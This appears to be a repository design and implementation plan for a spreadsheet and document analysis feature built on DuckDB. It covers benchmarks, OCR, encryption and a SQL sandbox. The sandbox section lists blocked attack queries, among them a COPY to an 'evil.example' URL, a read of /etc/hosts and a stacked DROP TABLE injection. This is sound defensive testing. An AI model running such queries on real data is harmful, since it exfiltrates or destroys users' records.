

# Data Mode — Implementation Plan

> Status: **BUILT AND SHIPPED.** Phases 0-5 implemented, including the brain
> graph write-back and the renderer surface. 889 unit tests green, 65/65 deep
> smoke checks green against the built dist in the real Electron 39.2.7 runtime
> (`pnpm smoke:data-mode`). Working dir: `apps/x`.
>
> **Three things reality changed while building Phases 0-4. See §11 before
> trusting §3 or §5.** §11.5 records what closed the remaining gaps.

## 1. What we're building

A CEO gets a spreadsheet from finance, a scanned invoice from a supplier, and a
PDF statement from the bank. Today Dhow can *read* those. It cannot *reconcile*
them, and it forgets them the moment the chat ends.

Data Mode makes any document a business receives into **structured, queryable,
auditable data that the brain remembers**.

The pitch in one sentence: *drop a file, ask a question in English, get a number
you can defend.*

### The failure mode this is designed against

> A confidently wrong number, beautifully charted, that nobody can audit.

Every decision below is downstream of that sentence.

### Key decisions (the "why")

- **The product is the review-and-repair loop, not the model.** Frontier models
  score 58–64% strict execution accuracy on BIRD, but 94–95% when the output is
  reviewed. Same models. One-shot NL→SQL is a demo that lies 40% of the time.
  ([BIRD](https://bird-bench.github.io/),
  [MotherDuck on strict vs realistic scoring](https://motherduck.com/blog/bird-bench-and-data-models/))
- **The loop runs machine-side; the disclosure is collapsed.** Generate SQL →
  execute → feed errors back → bounded retry → sanity-check shape. The CEO sees
  a number and a chart. A folded "how I got this" shows the SQL, rows scanned,
  and columns used. The CEO never opens it. The CFO who says "that's wrong"
  opens it in ten seconds, and that is the moment the feature earns trust or dies.
- **Arithmetic self-audit is the trust mechanism.** When a document states a
  total, we independently re-derive it and compare. Agreement is a receipt.
  Disagreement is the most valuable thing the tool will ever say. Demonstrated
  end-to-end in §3.5.
- **The LLM never sees raw rows.** It sees a schema profile and receives
  aggregates. This is what fixes the current context bomb (§2).
- **Two engines, because neither can do both jobs.** §3.6.
- **Reuse, don't rebuild.** Charts, tables, the skills system, tool domains, and
  native-module staging all already exist. §4.

### Explicitly out of scope for v1

Remote database connections (Postgres/MySQL/Supabase attach), notebooks,
forecasting/regression/clustering, saved dashboards, scheduled refresh.

Multi-file joins are **in** — comparing January's P&L to March's is the entire
point of "understand patterns."

## 2. Current state (verified)

`packages/core/src/runtime/tools/domains/parsing.ts:110-125`:

```ts
if (ext === '.csv') {
    const parsed = Papa.parse(text, { header: true, skipEmptyLines: true });
    return { success: true, ..., content: text, data: parsed.data };
}
```

Every parsed row **and** the entire raw text are returned into the LLM tool
result. `:89-107` does the same for XLSX — every sheet, `sheet_to_csv`'d and
concatenated. A 50 MB CSV is not analyzed today; it detonates the context window.

`parseFile` and `LLMParse` are in `COPILOT_BASE_TOOLS`
(`runtime/assembly/copilot/base-tools.ts:21-22`) — always attached, described as
the hot path for "users drop PDFs, Office docs, and images into chat." That file
also warns: *"Keep this list small — every entry is schema bytes on every single
model call, and tool-selection accuracy degrades as the attached count grows."*

**Consequence for the design:** add **zero** new base tools. `parseFile` routes
tabular files into the engine and returns a compact schema summary. The query
tools live in a skill, loaded on demand.

`search/search.ts:172-198`: brain search is `grep` over markdown. No index, no
ranking. Fine for "find the note about that supplier." Useless for "which
suppliers raised prices more than 8% since Q1."

There is **no SQLite in Dhow**. The only hit across `apps/` and `packages/` is
`bundle.mjs:203-206`, where the vendored `agent-slack@0.9.3` CLI reads *Slack's
own* database read-only in a child process.

## 3. Measured evidence

All numbers produced by running the real thing on this machine, inside
`ELECTRON_RUN_AS_NODE=1 electron@39.2.7`.

### 3.1 DuckDB ships almost nothing

```
SELECT extension_name, install_mode FROM duckdb_extensions()   -- v1.5.5
STATICALLY_LINKED (5):  autocomplete, core_functions, icu, json, parquet
NOT_INSTALLED    (25):  excel, fts, vss, httpfs, spatial, encodings,
                        postgres_scanner, mysql_scanner, sqlite_scanner, ...
```

CSV/JSON/Parquet work out of the box. **XLSX does not.** Defaults are
`autoinstall_known_extensions = true`, so the first `read_xlsx()` silently
downloads a binary from `extensions.duckdb.org`. Offline that is a mystery
failure; in a bank it is a security review.

**Fix, verified:** download the official signed extensions at build time into a
bundled `extension_directory`, then load offline with autoinstall/autoload
**off** and `allow_unsigned_extensions = false`.

```
LOAD excel (offline, from bundled dir): OK
LOAD fts   (offline, from bundled dir): OK
```

Measured sizes (osx_amd64, uncompressed): `excel` 8.3 MB · `fts` 5.5 MB ·
`vss` 27 MB · `httpfs` 17 MB · `sqlite_scanner` 28 MB · `postgres_scanner` 32 MB
· `encodings` **136 MB**.

**Ship `excel` only.** 8.3 MB. `fts` is unnecessary — see §3.6.

### 3.2 The sandbox: four layers, each tested

LLM-written SQL runs against a CEO's finance data, and a malicious cell in a
supplier's spreadsheet is a prompt-injection vector.

| Attack | Result |
|---|---|
| `SELECT region, sum(revenue) … GROUP BY 1` | **OK** |
| `SELECT * FROM read_csv_auto('/etc/hosts')` | `Permission Error: file system operations are disabled by configuration` |
| `COPY sales TO 'https://evil.example/x.csv'` | `Permission Error: file system operations are disabled` |
| `INSTALL httpfs` | `Permission Error: Cannot access directory …` |
| `LOAD spatial` | `Loading external extensions is disabled through configuration` |
| `SET enable_external_access=true` | `Cannot change configuration option — the configuration has been locked` |
| `DROP TABLE sales` | `Cannot execute statement of type "DROP" … attached in read-only mode` |
| `UPDATE` / `CREATE` / `ATTACH` | all blocked by `access_mode: READ_ONLY` |

Layer 1 is a free allowlist from the engine itself:

```
json_serialize_sql('SELECT 1')                   -> SELECT_NODE     accept
json_serialize_sql('SELECT 1; DROP TABLE sales') -> {"error":true}  reject
json_serialize_sql('DROP TABLE sales')           -> {"error":true}  reject
json_serialize_sql('PRAGMA version')             -> {"error":true}  reject
```

Only single `SELECT` statements serialize. Stacked-statement injection is
rejected before execution.

Architecture is **two connections, two trust levels**:



### 3.3 Encryption at rest works, no extension

```
ATTACH 'w.duckdb' AS e (ENCRYPTION_KEY '…')   OK
reopen without key                             Cannot open encrypted database without a key
reopen with wrong key                          Wrong encryption key used to open the database file
grep 'payroll' in the raw file                 not found
```

Key lives in Electron `safeStorage` (Keychain / DPAPI / libsecret).

### 3.4 Apple Vision OCR

`bundle.mjs` already compiles Swift at build time (`swiftc -O native/mic-monitor.swift`).
A real OCR helper was written and compiled against that same pattern:

```
binary size   71 KB          cold run   5.07 s (first-run model load)
warm run      1.05 / 1.16 s  confidence 1.00 on every line
languages     30, incl. ar-SA zh-Hans zh-Hant ja-JP ko-KR ru-RU th-TH
returns       text + per-line bounding boxes
```

Bounding boxes are the unlock: cluster by y for rows, sort by x for columns.
On a synthetic invoice the grid came back exactly right, header row and all,
with line items cleanly separated from the totals block.

### 3.5 The trust mechanism, demonstrated

DuckDB re-derives what the document claims:

```
┌────────────────────┬─────┬───────┬─────────┬────────────┬─────────┐
│ item               │ qty │ unit  │ amount  │ recomputed │ line_ok │
├────────────────────┼─────┼───────┼─────────┼────────────┼─────────┤
│ 'Maize flour 50kg' │ 120 │ 18.4  │ 2208    │ 2208       │ true    │
│ 'Cooking oil 20L'  │  45 │ 32.75 │ 1473.75 │ 1473.75    │ true    │
│ 'Sugar 25kg'       │  80 │ 21.05 │ 1684    │ 1684       │ true    │
└────────────────────┴─────┴───────┴─────────┴────────────┴─────────┘
derived: subtotal 5365.75 · vat16 858.52 · total 6224.27
printed: subtotal 5,365.75 · VAT 858.52 · TOTAL 6,224.27      exact match
```

### 3.6 Engine selection, benchmarked

Same file, same question, same machine, 64.7 MB CSV. All engines returned
identical answers.

| rows | sqlite ingest | duck ingest | **sqlite query** | **duck query** | speedup | UI frozen (sqlite) |
|---|---|---|---|---|---|---|
| 10,000 | 90 ms | 214 ms | **19 ms** | 43 ms | **0.5x — sqlite wins** | 110 ms |
| 50,000 | 393 ms | 393 ms | 139 ms | 43 ms | 3.2x | 532 ms |
| 100,000 | 778 ms | 550 ms | 282 ms | 64 ms | 4.4x | 1,061 ms |
| 500,000 | 3,481 ms | 1,548 ms | 1,335 ms | 78 ms | 17.0x | 4,817 ms |
| 1,000,000 | 7,409 ms | 2,756 ms | 2,871 ms | 116 ms | **24.8x** | **10,279 ms** |

DuckDB query time is effectively flat (43→116 ms across 100x data). SQLite is
linear. Disk for 1M rows: 11 MB vs 73 MB.

`node:sqlite` exposes **only `DatabaseSync`** — no async variant. Measured
consequence in the main process:

```
query took 2961 ms; event-loop ticks that fired DURING it: 4 (expected ~296)
```

The app is wedged for three seconds. Fixable with `worker_threads`, but that is
building the async layer DuckDB already has.

**But DuckDB cannot own the brain**, for two architectural reasons:

```
duckdb fts:  insert a note, search for its term  -> []        index is a stale snapshot
             after full PRAGMA rebuild            -> ["b.md"]
sqlite FTS5: insert a note, search for its term  -> ["b.md"]  transactional
```

`knowledge/README.md:73` — *"Processes ONE source file per agent run
(BATCH_SIZE = 1)"*. Constant tiny writes is the worst case for a rebuild-only
index. On 4,000 notes: build 143 ms vs 1,631 ms, query 10 ms vs 133 ms, reindex
after 50 edits 552 ms vs 1,402 ms. The rebuild is linear in corpus size.

```
DuckDB, 2nd process while the 1st holds the file:
  READ-WRITE : FAILED — Could not set lock on file: Conflicting lock is held
  READ-ONLY  : FAILED — Could not set lock on file: Conflicting lock is held
sqlite, same test:
  READ-WRITE : OK      READ-ONLY : OK
```

Dhow spawns child processes constantly (ACP adapters, the `agent-slack` CLI via
`process.execPath`, `mic-monitor`, background agents). Under DuckDB-only, none
could read the brain — not even read-only. A crash strands the lock.

**Where the earlier assumption was wrong:** DuckDB *beat* SQLite on 1,000
autocommit single-row appends (1,142 ms vs 2,143 ms — SQLite fsyncs per commit).
DuckDB costs ~530 ms more cold process start (0.90 s vs 0.37 s).

**Verdict — neither engine alone does both jobs:**

| | Brain index | Analytics store |
|---|---|---|
| Engine | `node:sqlite` + FTS5 (SQLite 3.50.4, already in Electron) | DuckDB 1.5.5 |
| Added install cost | **0 MB** | ~69 MB |
| Data shape | thousands of small markdown notes | few large tabular datasets |
| Writes | constant, tiny, one file at a time | bulk load, then read-only |
| Readers | main + child processes | one owner |
| Encrypted | no — source is plaintext markdown by design | **yes** |
| Who writes the SQL | us, in one file | the LLM, sandboxed |

Integration cost of two engines is near zero: no shared schema, no cross-engine
joins, no LLM SQL against the brain index. They never touch.

### 3.7 Document conversion — do not chase MarkItDown

`@microsoft/markitdown` does not exist on npm. `markitdown` is an unrelated 2012
pandoc wrapper. `markitdown-ts` is a single-maintainer port at v0.0.10.
MarkItDown is a *dispatcher* over parsers already shipped here: `pdf-parse`,
`xlsx`, `mammoth`, `papaparse`. Real gaps are pptx, odt, HTML, and OCR.

| Package | Version | Verdict |
|---|---|---|
| `officeparser` | 7.5.1, MIT, 11.8 MB | **take** — pptx + odt in one dep |
| `turndown` | already in `apps/dhowx` | **promote to `apps/x`** for HTML |
| `tesseract.js` | 7.0.0, Apache-2.0 | **take** — Windows/Linux OCR, WASM, no native build |
| `mupdf` | 1.28.0, **AGPL-3.0** | **reject** — incompatible with Apache-2.0 |
| `node-poppler` | 10.0.1 | reject — needs system poppler binaries |
| `markitdown-ts` | 0.0.10 | reject — too immature to depend on |

### 3.8 A real bug found in Vision

```
OCR gave:    "AСME TRADING LTD"
codepoints:  A U+0041   С U+0421 (CYRILLIC ES)   M U+004D   E U+0045
```

Renders identically to Latin C. That vendor name will silently fail to match its
brain note, forever, with no error. **Mitigation: NFKC + a confusables map on
every OCR string before it becomes a join key or entity name.** Cheap, and
invisible if you don't know to look for it.

## 4. What already exists and gets reused

| Piece | Where | Gives us |
|---|---|---|
| Chart rendering | `apps/renderer/src/components/chart-renderer.tsx`, `recharts@3.8.0` | line/bar/pie, CVD-safe palettes, dark mode, streaming-tolerant |
| Chart contract | `packages/shared/src/blocks.ts:44-53` | ` ```chart ` fence renders inline |
| Table contract | `blocks.ts:62-66` | `columns` + `data` + `title` |
| Charts skill | `runtime/assembly/skills/charts/skill.ts` | already teaches wide-format, ≤30 rows, ≤6 series, "never invent numbers" |
| Skills system | `runtime/assembly/skills/` — 20 skills, disk loader + watcher | a new skill is one folder + one entry in `index.ts` |
| Tool domains | `runtime/tools/domains/*.ts` — 15 domains, wired in `tools/catalog.ts:10-24` | a new domain is the same shape |
| Spreadsheet-aware drop | `renderer/src/lib/attachment-presentation.ts:22-24,60` | `csv,tsv,xls,xlsx` already classify as `'spreadsheet'` |
| Native staging | `apps/main/bundle.mjs` | already stages **three** N-API modules this exact way |
| Rebuild policy | `forge.config.cjs rebuildConfig: { onlyModules: [] }` | N-API-only house rule; DuckDB complies (64 undefined `napi_*` symbols) |
| Swift build step | `bundle.mjs` runs `swiftc -O native/mic-monitor.swift` | the OCR helper is the same pattern |
| `.package` exemption | `forge.config.cjs` `ignore:` | staged natives already survive packaging |

**Second-order win:** the charts skill says *"never invent numbers,"* but today
the model **is** the source of the numbers, so that rule is unenforceable hope.
With an engine behind it the numbers come from a query and the rule becomes true.

## 5. Decisions

| # | Decision | Rationale |
|---|---|---|
| D1 | **Zero new base tools.** `parseFile` routes tabular files to the engine and returns a compact schema summary plus a hint. Query tools ship in a `data-analysis` skill. | `base-tools.ts` explicitly warns that every base entry costs schema bytes on every call and degrades tool selection. |
| D2 | **Per-workspace encrypted store:** `~/.dhow/data/<workspace>/analytics.duckdb`, AES via `ENCRYPTION_KEY`, key in `safeStorage`. Source table dropped when its source file is removed; explicit per-file "Forget this data." | Cross-document patterns require persistence. Encryption verified §3.3. |
| D3 | **Ugly spreadsheets: best-effort parse, then show the inferred structure and require one click.** Header row, types, and detected junk rows displayed. Arithmetic self-audit runs immediately. | Refusing loses. Silent guessing ships a wrong number. One click buys enormous trust for two seconds. **Lowest-confidence decision here** — if it annoys people, degrade to a toast with undo, and measure it. |
| D4 | **Every sheet becomes a table**, `<file>__<sheet>`, all catalogued. Sheets with <2 data rows skipped as cover pages. | "Which sheet?" is a question a CEO cannot answer about a file finance sent them. |
| D5 | **New sibling tools; `parseFile` gets one guard** — cap `data:` at 50 rows with `truncated: true` pointing at the new path. Whole feature behind `DHOW_DATA_MODE=0`. | Changing `parseFile` breaks existing chats; leaving an unbounded row dump is shipping a known context bomb. |
| D6 | **OCR: Apple Vision on macOS; `tesseract.js` on Windows/Linux with automatic `LLMParse` escalation when mean confidence < 0.8.** | Vision is free, offline, 71 KB and excellent. Tesseract keeps other platforms offline-capable; escalation covers its weak cases without making network a hard requirement. |
| D7 | **Ship `excel` extension only** (8.3 MB). No `fts`, `vss`, `httpfs`, or scanners. | `fts` is redundant given SQLite FTS5 (§3.6); the scanners serve remote DBs, which are out of scope. |
| D8 | **Brain search moves to `node:sqlite` + FTS5** and ships independently of everything else. | 0 MB, no new dependency, no packaging change, replaces the grep in `search.ts:172-198`, makes Dhow better today. |

## 6. Installer cost

| Component | macOS arm64 | Windows x64 |
|---|---|---|
| `libduckdb` (`lipo -thin` from the 112 MB universal fat binary) | **55 MB** | 36 MB |
| `duckdb.node` | 0.4 MB | 0.4 MB |
| `excel` extension | 8.3 MB | ~8.3 MB |
| OCR | 0.07 MB (Swift/Vision) | ~15 MB (tesseract.js + eng traineddata) |
| `officeparser` | 11.8 MB | 11.8 MB |
| Brain FTS5 | **0 MB** | **0 MB** |
| **Added** | **~76 MB** | **~72 MB** |

`CODE_MODE_ENGINES_PLAN.md` records Conductor shipping a 123 MB DMG and treats
~400 MB as the unacceptable line. This is real but is not that fight.

## 7. Phased roadmap

Ordered so each phase is independently shippable.

### Phase 0 — Brain search on FTS5 (standalone, 0 MB)
Replace the grep in `search.ts:172-198` with a `node:sqlite` FTS5 index over
`WorkDir/knowledge/`, incrementally maintained off the same mtime+hash change
detection `graph_state.ts` already implements.
**Done when:** ranked results beat grep on a 20-query set; index stays correct
after a `build_graph` run without a rebuild; child processes can still read it.

### Phase 1 — Engine
`@duckdb/node-api` dependency; `lipo -thin` + `excel` extension staging in
`bundle.mjs`; `packages/core/src/data/` engine module implementing the two-phase
sandbox; encrypted per-workspace store.
**Done when:** a packaged DMG opens a CSV **offline**; all eight attacks in §3.2
are blocked by an automated test; a build-time assertion fails the build if the
staged extension is missing.

### Phase 2 — Ingest
CSV + XLSX via SheetJS (not `read_xlsx` — we need control over messy headers),
structure inference, the D3 confirmation UI, the `parseFile` guard.
**Done when:** 20 real finance exports import; inferred header row correct on
≥18; a 200-column sheet with merged cells and a totals row does not silently
mis-parse.

### Phase 3 — Ask
`data-analysis` skill; NL→SQL with execute-and-repair; collapsed "how I got
this"; reuse of `ChartBlockSchema` + `recharts`.
**Done when:** a 30-question eval set scores ≥90% correct after the repair loop,
and every answer carries provenance (SQL, rows scanned, columns used).

### Phase 4 — Documents
Vision OCR helper (macOS) + `tesseract.js` (Windows/Linux) + `LLMParse`
escalation; bbox→table reconstruction; arithmetic self-audit; `officeparser`;
`turndown`; confusables normalization.
**Done when:** a scanned invoice reconciles to the cent; the U+0421 homoglyph
case (§3.8) is caught by a regression test.

### Phase 5 — Brain
Imported tables and their derived facts become brain source files, indexed by
the Phase 0 FTS5 index.
**Done when:** *"which suppliers raised prices since Q1"* answers correctly
across three separately-imported documents.

Phase 3 is the first point the feature is worth demoing. Phases 4 and 5 are what
make it the go-to tool rather than a spreadsheet reader.

## 8. Files

| File | Change |
|---|---|
| `apps/main/package.json` | + `@duckdb/node-api` |
| `apps/main/bundle.mjs` | `external:` entry; stage current-platform binding into `.package/node_modules`; `lipo -thin` the dylib; stage the `excel` extension; compile `native/ocr.swift` |
| `apps/main/native/ocr.swift` | **new** — Vision OCR helper, JSON+bboxes on stdout, same shape as `mic-monitor.swift` |
| `apps/main/forge.config.cjs` | no change expected — `rebuildConfig` already empty, `ignore:` already exempts `/.package/` |
| `packages/core/src/data/` | **new** — engine, sandbox, ingest, schema profiling, SQL repair loop |
| `packages/core/src/runtime/tools/domains/data.ts` | **new** — skill-scoped query tools |
| `packages/core/src/runtime/tools/catalog.ts:10-24` | register the domain. **Spread order is load-bearing** — a key-order test pins it |
| `packages/core/src/runtime/tools/domains/parsing.ts:110-125` | route tabular files to the engine; cap `data:` at 50 rows with `truncated: true` |
| `packages/core/src/runtime/assembly/skills/data-analysis/skill.ts` | **new** |
| `packages/core/src/runtime/assembly/skills/index.ts` | register, alongside `chartsSkill` |
| `packages/core/src/search/search.ts:172-198` | grep → FTS5 |
| `packages/shared/src/blocks.ts:44-66` | reuse as-is; consider a provenance field on chart/table |
| `packages/core/src/knowledge/graph_state.ts` | reuse mtime+hash detection to drive FTS5 incremental updates |

## 9. Risks and rollback

| Risk | Mitigation |
|---|---|
| Extension staging silently produces a build that works locally and fails offline | Build-time assertion: open the packaged DB with autoinstall off and `LOAD excel`; fail the build if it throws |
| Windows `signtool` hard-fails on foreign-platform `.node` files | Already a known landmine, documented in `bundle.mjs`. Stage current-platform binaries only |
| `lipo -thin` step breaks a macOS build | Assert the resulting dylib loads before packaging continues |
| DuckDB file lock stranded by an unclean exit | Analytics store has exactly one owner process; detect a stale lock at startup and offer recovery |
| LLM-generated SQL escapes the sandbox | Four independent layers, §3.2, each with a regression test |
| Prompt injection via a malicious spreadsheet cell | Sandbox blocks filesystem and network; AST gate rejects anything but a single `SELECT` |
| A wrong number ships anyway | Arithmetic self-audit + mandatory provenance on every answer |

Rollback: `DHOW_DATA_MODE=0` disables the whole feature; `parseFile` keeps its
existing behaviour apart from the row cap. Phase 0 is independent and carries no
DuckDB risk at all.

## 10. Open questions

1. **D3 confirmation UX** — modal versus toast-with-undo. Should be measured, not
   guessed.
2. **Windows/Linux OCR quality bar** — is a `LLMParse` escalation acceptable when
   the user is offline, or must those platforms degrade to "text-layer PDFs only"?
3. **Retention** — how long do imported finance tables live before Dhow offers to
   forget them?

## 11. What implementation changed

Three findings from building it that contradict the plan above. They are
recorded here rather than edited into §3 so the difference between "measured
before" and "learned by shipping" stays visible.

### 11.1 Encryption needs the `httpfs` extension (§3.1 and §6 were wrong)

§3.1 concluded "ship `excel` only, 8.3 MB". That produces an app that cannot
create its own store:

```
Invalid Configuration Error: DuckDB currently has a read-only crypto module
loaded. Please ensure httpfs is loaded using `LOAD httpfs`
```

DuckDB's built-in mbedtls crypto module is READ-ONLY. Writing an encrypted
database requires `httpfs`, which carries the writable one. Nothing to do with
networking, and verified not to open one: with `httpfs` loaded and
`enable_external_access=false`, both `read_csv_auto('https://…')` and
`COPY … TO 'https://…'` are still refused.

The unit tests missed this and passed for an accidental reason: with extension
autoload left at its default of ON, DuckDB silently pulled `httpfs` out of the
developer's `~/.duckdb` cache. On a clean machine that is a surprise network
fetch, and with autoload correctly disabled it fails outright. **Only the smoke
test against the real staged build caught it.**

Both extensions now ship (25 MB), the engine loads `httpfs` before ATTACH, and
`bundle.mjs` HARD FAILS the build if either is missing rather than shipping an
app that cannot encrypt. Absent the extension the engine refuses to run
unencrypted unless `DHOW_DATA_ALLOW_UNENCRYPTED=1` is set explicitly.

### 11.2 A pre-existing packaging bug, now fixed

`parseFile`'s parsers were loaded through a computed-path
`new Function('return import(mod)')` so esbuild could not inline pdfjs-dist's
DOM polyfills. But `forge.config.cjs` strips `/^\/node_modules\//`, `bundle.mjs`
staged only the native modules, and an import esbuild cannot resolve is not
inlined either. So in a packaged build `papaparse`, `xlsx`, `mammoth` and
`pdf-parse` were simply absent: **every CSV, spreadsheet, Word and PDF drop
failed with "Cannot find module".** Same class as the ACP adapter bug in
`CODE_MODE_ENGINES_PLAN.md`.

Fixed: the three pure-JS parsers are static imports now (no polyfill reason to
hide them), and `pdf-parse` keeps the trick and is staged into
`.package/node_modules`.

### 11.3 A circular import that made `parsing.ts` un-importable

`parsing.ts` -> `models/defaults.js` -> `di/container.js` -> … -> `catalog.js`
-> `parsing.ts`. It survived only because `catalog.js` is normally imported
first; importing `parsing.ts` on its own threw `Cannot access 'parsingTools'
before initialization`, and under a test runner it hung.

The provider imports in `parsing.ts` and `ask.ts` are lazy now, inside the one
function that needs them. `parsing.ts` is independently importable and directly
tested again.

### 11.4 Corrections to smaller claims

- `encryption_key` is NOT a `DuckDBInstance` option ("The following options were
  not recognized"). Encryption is only reachable via
  `ATTACH … (ENCRYPTION_KEY …)`, so the instance is `:memory:` and the store is
  an attached catalog named `ws`.
- `json_serialize_sql` rejects a bound parameter ("first argument must be a
  VARCHAR"). The candidate goes in as an escaped literal, which is safe: a
  quote-escape attempt returns `{"error":true,"error_type":"parser"}`.
- `SUM` over a money column returns `DuckDBDecimalValue`, whose `toString` is a
  STRING. Left alone, every revenue chart renders empty, because the charts
  skill requires JSON numbers. `normalizeValue` calls `toDouble()`.
- A stale reader genuinely does not see new tables, so recycling it after every
  write is load-bearing, not an optimization.
- Installer cost landed at ~90 MB, not the ~76 MB estimated in §6: `httpfs`
  added 17 MB and staging `pdf-parse` added 21 MB (that one being the §11.2 bug
  fix rather than Data Mode's own weight).

### 11.5 Closed since §11 was first written

All four gaps below were open when this section was last written. Each is now
closed, with the evidence that closed it.

- **Phase 5 (brain graph)** — `data/graph-bridge.ts` writes a markdown note per
  imported table to `WorkDir/knowledge/Data/<table>.md` (frontmatter, schema,
  sample rows, source path) and `data-import`/`ingestFile` call it after every
  successful import. The existing `buildKnowledgeIndex()` picks the note up as
  an "other" entry with no changes needed on that side. Smoke test §2 asserts
  both the file exists and `getKnowledgeIndex()` lists the table.
- **UI (import confirmation + collapsed provenance)** — `getDataImportCardData`
  / `getDataProvenanceCardData` in `renderer/src/lib/chat-conversation.ts`
  parse the `data-import` / `data-ask` / `data-sql` tool results into typed
  card data; `DataImportResult` and `DataProvenanceResult`
  (`renderer/src/components/ai-elements/data-tool-result.tsx`) render them in
  place of the generic JSON tool tabs, wired into all three chat surfaces
  (`App.tsx`, `chat-sidebar.tsx`, `code-chat.tsx`). The provenance card is
  collapsed by default behind a "How I got this" trigger, matching §1's "the
  disclosure is collapsed" decision. Verified with 8 unit tests plus a
  browser-rendered visual check of every state (import success/running,
  ask success/error, sql truncated).
- **safeStorage** — `apps/main/src/data-mode-key.ts` seeds `DHOW_DATA_KEY` from
  Electron `safeStorage` in `app.whenReady()`, before `setupIpcHandlers()`
  registers any handler that can touch the engine: generates a random 32-byte
  key on first run, encrypts it with `safeStorage.encryptString`, and persists
  it as `userData/dhow-data-key.enc`. Falls back to a warned plaintext keyfile
  only if `safeStorage.isEncryptionAvailable()` is false (headless Linux CI,
  locked keychain). Verified against the real Electron `safeStorage` API in a
  minimal launched app: key generated, keyfile encrypted (not plaintext hex),
  same key recovered after reload.
- **Windows/Linux OCR** — exercised end-to-end on this machine via
  `DHOW_OCR_FORCE_TESSERACT=1`, bypassing Vision to force the `tesseract.js`
  path `ocrFile` takes on Windows/Linux. Ran offline against the vendored
  `eng.traineddata`, staged by `bundle.mjs` the same way as the DuckDB
  extensions, with `resolveTesseractLangPath()` checking the packaged location
  first and falling back to a CDN download only in dev. 9 lines extracted,
  mean confidence 0.91 on the invoice fixture — above the 0.8 LLM-escalation
  threshold, so the path resolves without touching the network.
